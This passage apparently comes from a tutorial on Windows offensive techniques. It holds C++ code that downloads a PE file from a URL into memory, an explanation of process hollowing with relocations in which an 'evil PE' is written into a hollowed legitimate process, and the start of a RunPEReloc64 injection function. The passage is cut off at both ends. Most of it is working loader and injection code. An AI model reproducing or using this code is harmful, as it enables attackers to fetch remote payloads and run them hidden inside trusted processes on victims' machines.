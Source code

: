 ```
                printf("[+] Number of bytes read: %d \n",dwBytesRead);
                return PE_buffer;
            }
            else{
                printf("[-] Error downloading the file content. Error: %d \n", GetLastError());
                exit(1);
            }
        }
    }
    else{
        printf("[-] Error opening the url: %s Error code: %d \n", fileUrl, GetLastError());
    }
    // Close down connections.
    InternetCloseHandle(hURL);
    InternetCloseHandle(hInternetSession);

    return nullptr;
}
```


#### RUNPE 64 with RELOCs

So back to the example, the following code can be used to implement process hollowing with relocations. By using a legitimate PE and a PE retrieved either from a web server, a file on disk or whatever mean considered.

The process is simpe and very similar to the one of PE injection. First we load and hollow the remote process by unmapping the executable memory from the process memory space (not really necessary though), then we parse the buffer containing the evil PE as we previously seen, we make sure we have a memory buffer in the remote process, and then we write the PE headers, then we map the executable section by section using their virtual memory space and virtual addressess. After that we apply the needed relocations by using the .reloc section. After that we set the context of the remote suspended process in order to make it start at our entry point. After that we are ready to resume its execution.

Note that on a 32 bit process, when a process is started, ebx register is pointing to the TIB, and eax is pointing to the entry point. On a 64 bit process, rdx is pointing to the TIB, and rcx is pointing to the entry point. So don't copy and paste a process hollowing PoC for x32 and try to implement it for an x64 it won't work.

```
BOOL RunPEReloc64(const LPPROCESS_INFORMATION lpPI, const LPVOID lpImage, const LPVOID remoteBase)
{
	LPVOID lpAllocAddress;
    DWORD umResult;

	const auto lpImageDOSHeader = (PIMAGE_DOS_HEADER)lpImage;
	const auto lpImageNTHeader64 = (PIMAGE_NT_HEADERS64)((uintptr_t)lpImageDOSHeader + lpImageDOSHeader->e_lfanew);

    umResult = UnmapSectionView(lpPI->hProcess, (LPVOID)remoteBase);

	lpAllocAddress = VirtualAllocEx(lpPI->hProcess, (LPVOID)remoteBase, lpImageNTHeader64->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (lpAllocAddress == nullptr)
	{
		printf("[-] An error has occurred when trying to allocate memory for the new image. Error: %d \n", GetLastError());
		return FALSE;
	}

	printf("[+] Memory allocate at : 0x%p\n", (LPVOID)(uintptr_t)lpAllocAddress);

```